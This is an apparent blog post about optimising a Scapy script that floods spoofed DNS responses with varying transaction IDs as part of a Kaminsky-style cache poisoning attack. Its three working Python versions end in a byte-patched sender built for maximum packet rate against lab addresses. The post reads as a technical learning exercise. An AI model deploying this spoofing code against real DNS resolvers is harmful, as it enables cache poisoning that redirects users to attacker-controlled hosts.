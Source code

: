 ```yaml
---
title: Speeding up Scapy
subtitle: subtitle
author: [Woefe]
date: 2019-03-22
keywords: [Scapy, Python, DNS]
...
```


A few weeks ago I revisited the DNS cache poisoning attack discovered by Dan Kaminsky in 2008.
Implementing the attack requires some fairly low-level manipulation of DNS packets.
Fortunately, we have [Scapy](https://scapy.net/), which makes packet manipulation easy and accessible from Python.
But at first the performance of my script was so bad that I could not carry out the attack (maybe I just never waited long enough).
In this post I want to record my journey that led to a faster and faster Scapy script.

<!--more-->

A deep understanding of the Kaminsky attack won't be necessary for this blog post.
Nevertheless, if you want to learn more about the attack, I can recommend the paper from [unixwiz.net](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html), which helped me a lot in understanding the issue.
For this post you only have to understand the following detail of the attack: we want to send a lot of spoofed DNS responses with varying DNS IDs.
The more packets we send per second the higher our chance to succeed.

# First attempt
Below you can find a simplified excerpt from my initial attack script.
Packets are composed by gluing together the different layers with the `/` operator.
For example, the DNS response over UDP follows the `IP()/UDP()/DNS()` structure.
For now, you can safely ignore the parameters like source, destination or the particular DNS answer record.
What is actually important is the for-loop, which sends 5000 packets using Scapy's `send()` function.

```python
from scapy.all import *
import random

n_packets = 5000
start_time = time.time()

for i in range(n_packets):
    response = (
        IP(dst="192.168.178.1", src="192.168.178.2")
        / UDP(sport=53, dport=4444)
        / DNS(
            id=(1024 + i) % 65535,
            an=DNSRR(rrname="dummy.example.kom", ttl=70000, rdata="192.168.178.3"),
        )
    )
    send(response)

end_time = time.time()
print(f"sent {n_packets} responses in {end_time - start_time:.3f} seconds")
```

This script is quite slow.
It took over four minutes to send the 5000 packets.
```
> sudo python3 01_naive.py
...
sent 5000 responses in 265.825 seconds
```

To find the bottleneck that is wrecking performance I profiled the script with the `cProfile` module.
```bash
# Note that the amount of packets was reduced to 100!
sudo python -m cProfile -s time 01_naive.py
...
ncalls  tottime  percall  cumtime  percall filename:lineno(function)
   404    2.502    0.006    2.502    0.006 {function socket.close at 0x7ff8449c19d8}
   201    2.352    0.012    2.352    0.012 {method 'bind' of '_socket.socket' objects}
```
Most of the time is spent opening and closing sockets.
It turns out `send()` opens a new socket for every single packet.


# Second attempt: using a socket
To fix the performance problems discovered above, we must tell Scapy to use the same socket for all responses.
Scapy supports two kinds of sockets.
One at OSI Layer 2, the `L2Socket`, which accepts `Ether()/...` or `bytes` objects and the other at Layer 3, named `L3Socket`, which accepts `IP()/...` objects.
The patch is quite simple: create an `L3socket` and replace `send()` with `L3Socket.send()`.

```diff
4a5
> s = conf.L3socket()
16c17
<     send(response)
---
>     s.send(response)
```

When we execute the script, we can see that the performance increased by a factor of roughly 56.
```
> sudo python3 02_with_socket.py
sent 5000 responses in 4.743 seconds
```

We can further improve the script by roughly 1.5 seconds by preparing the response beforehand and only adjusting the ID within the loop:
```python
from scapy.all import *
import random

n_packets = 5000
response = (
    IP(dst="192.168.178.1", src="192.168.178.2")
    / UDP(sport=53, dport=4444)
    / DNS(id=0, an=DNSRR(rrname="dummy.example.kom", ttl=70000, rdata="192.168.178.3"))
)
dns_layer = response[DNS]
s = conf.L3socket()
start_time = time.time()

for i in range(n_packets):
    dns_layer.id = (1024 + i) % 65535
    s.send(response)

end_time = time.time()
print(f"sent {n_packets} responses in {end_time - start_time:.3f} seconds")
```


# Third attempt: pre-render response
The patch from above yielded in noticeably better performance, but can we do better?
After another round of profiling the answer is: yes, but we have to fiddle with our responses on byte-level.
It turns out that most of the time is spent encoding the Scapy objects to byte arrays which are suitable to transmit over the wire.
Every time we send a packet, Scapy implicitly calls the `raw()` function to encode the object representing our DNS response to bytes.
If we could do this only once before the loop, we would win even more performance.
Recall that we have to adjust the DNS ID on every single packet.
Therefore, preparing a static response using the `raw()` method will not be sufficient.
My solution is to prepare the response before entering the loop and then to manually adjust the DNS ID and UDP checksum within the encoded byte array.


```python
from scapy.all import *
import random


def patch(dns_frame: bytearray, pseudo_hdr: bytes, dns_id: int):
    """Adjust the DNS id and patch the UDP checksum within the given Ethernet frame"""
    # set dns id
    # the byte offsets can be found in Wireshark
    dns_frame[42] = (dns_id >> 8) & 0xFF
    dns_frame[43] = dns_id & 0xFF

    # reset checksum
    dns_frame[40] = 0x00
    dns_frame[41] = 0x00

    # calc new checksum
    ck = checksum(pseudo_hdr + dns_frame[34:])
    if ck == 0:
        ck = 0xFFFF
    cs = struct.pack("!H", ck)
    dns_frame[40] = cs[0]
    dns_frame[41] = cs[1]


n_packets = 5000
response = (
    Ether()
    / IP(dst="192.168.178.1", src="192.168.178.2")
    / UDP(sport=53, dport=4444)
    / DNS(id=0, an=DNSRR(rrname="dummy.example.kom", ttl=70000, rdata="192.168.178.3"))
)
dns_frame = bytearray(raw(response))
pseudo_hdr = struct.pack(
    "!4s4sHH",
    inet_pton(socket.AF_INET, response["IP"].src),
    inet_pton(socket.AF_INET, response["IP"].dst),
    socket.IPPROTO_UDP,
    len(dns_frame[34:]),
)
s = conf.L2socket()

start_time = time.time()

for i in range(n_packets):
    patch(dns_frame, pseudo_hdr, (1024 + i) % 65535)
    s.send(dns_frame)

end_time = time.time()
print(f"sent {n_packets} responses in {end_time - start_time:.3f} seconds")
```

The performance critical part of the script is now 2000-3000 times faster than the initial version!
```
> sudo python3 03_without_raw.py
sent 5000 responses in 0.096 seconds
```
